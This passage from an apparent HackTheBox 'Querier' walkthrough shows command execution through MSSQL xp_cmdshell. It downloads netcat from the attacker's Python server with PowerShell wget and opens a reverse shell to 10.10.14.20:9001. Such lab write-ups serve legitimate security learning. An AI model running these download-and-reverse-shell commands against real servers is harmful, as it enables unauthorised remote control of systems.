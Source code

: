 I then wanted to see what could be ran, I ran the 'help' command which indicated that the syntax should be 'xp_cmdshell {command}'. As a test I ran a simple whoami:

    SQL> xp_cmdshell whoami
	output                                                                             
	
	--------------------------------------------------------------------------------   
	
	querier\mssql-svc                                                                  
	
    NULL    

Excellent, now you could be barbaric and use this method to execute commands against this box. However, I wanted a shell as that's much easier to work with. To do this I decided to put a copy of netcat onto the machine and then use that to connect to me. Firstly I ran 'locate nc64.exe' on my Kali machine to see if I had a copy locally and I did, I copied this to my working directory (If you don't have a version of netcat on your machine you can download it [here](https://eternallybored.org/misc/netcat/))

With the file in my working directory I hosted a simple python server:
   
    sudo python3 -m http.server 80

Via the SQL prompt I ran the following command:

    SQL> xp_cmdshell powershell -c wget "http://10.10.14.20/nc64.exe" -Outfile "C:\Reports\nc64.exe"

This simply calls powershell to go out and grab the file off the python server we setup in the step above. You can also use certutil here if you wish. I chose to use the 'Reports' directory as my target location as there was a good chance anyone had write access to this, I could've attempted to make a directory or move into the user directory.

With netcat on the victim box we need to set up a listener on our attacker machine:

    sudo nc -nvlp 9001

Then run the following via the SQL prompt:

    SQL> xp_cmdshell C:\Reports\nc64.exe 10.10.14.20 9001 -e powershell

When I checked the listener, we had a low-level user shell, I chose to execute powershell with my command but if you prefer a generic shell then replace powershell with cmd.exe.

![lowlevelshell](/assets/images/HackTheBox/Querier/lowlevel.png)
